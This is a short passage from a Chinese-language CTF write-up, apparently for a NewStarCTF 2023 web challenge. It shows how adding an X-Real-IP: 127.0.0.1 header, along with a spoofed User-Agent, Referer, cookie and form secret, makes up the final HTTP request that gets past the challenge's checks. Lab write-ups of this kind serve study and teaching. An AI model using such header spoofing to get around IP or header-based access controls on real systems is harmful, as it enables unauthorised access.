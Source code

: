   

<br>本地用户->通用的IP->127.0.0.1

好的，又添加

```

X-Real-IP:127.0.0.1

```

  

## 结果

  

最后请求be like：

  

```

POST /?ctf=1 HTTP/1.1

Host: node4.buuoj.cn:27986

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: NewStarCTF2023

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate

Accept-Language: ja,zh-CN;q=0.9,zh;q=0.8

Cookie: power=ctfer

Referer:newstarctf.com

X-Real-IP:127.0.0.1

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 28

  

secret=n3wst4rCTF2023g00000d

```
